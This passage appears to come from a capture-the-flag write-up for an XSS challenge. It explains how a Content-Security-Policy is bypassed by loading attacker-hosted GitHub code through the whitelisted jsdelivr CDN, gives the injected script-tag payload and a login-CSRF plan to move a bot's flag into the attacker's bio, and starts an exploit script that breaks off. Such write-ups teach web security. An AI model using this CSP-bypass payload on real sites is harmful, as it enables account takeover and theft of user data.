 There's also a report button, which makes a bot visit our profile. The
flag is in the bot's profile.

We can't just insert a `<script>` tag because of the CSP.

    Content-Security-Policy:

    default-src 'none';

    script-src 'nonce-2P4mGaKeoifj7M5tSk4V2Q=='
    https://cdn.jsdelivr.net/
    https://www.google.com/recaptcha/
    https://www.gstatic.com/recaptcha/
    'unsafe-eval';

    style-src https://cdn.jsdelivr.net/;

    frame-src https://www.google.com/recaptcha/
    https://recaptcha.google.com/recaptcha/;

    base-uri 'none';

    connect-src 'self';

The nonce isn't guessable, so the only other option would be to figure
out if there's a way to host our JavaScript on any of the whitelisted
sources.

It turns out jsdelivr actually
[allows](https://github.com/jsdelivr/jsdelivr#github) GitHub
repositories to be accessed through it like this.

    /gh/user/repo@version/file

The `connect-src` also makes it so that we cannot make a request to
ourselves with the flag, so we need to get it some other way. Another
point is that the session cookie is `HttpOnly`, so we need to get the
actual flag, getting the cookie won't work.

## Solution

Here's the steps my solution takes:

1.  Get the flag from the bot's bio.
2.  Log the bot out.
3.  Log in as my user.
4.  Set my bio to the flag.

The script has to be hosted on GitHub and then accessed through
jsdelivr.

    <script src="https://cdn.jsdelivr.net/gh/gabrielott/bla@0a55d65/pwn.js"></script>

The idea is fairly simple, but it took me a while to get it to work. The
CSRF token was specially annoying.

    const BASE = "http://challenge:8080/";

    const wait = ms => new Promise(resolve => setTimeout(resolve, ms));
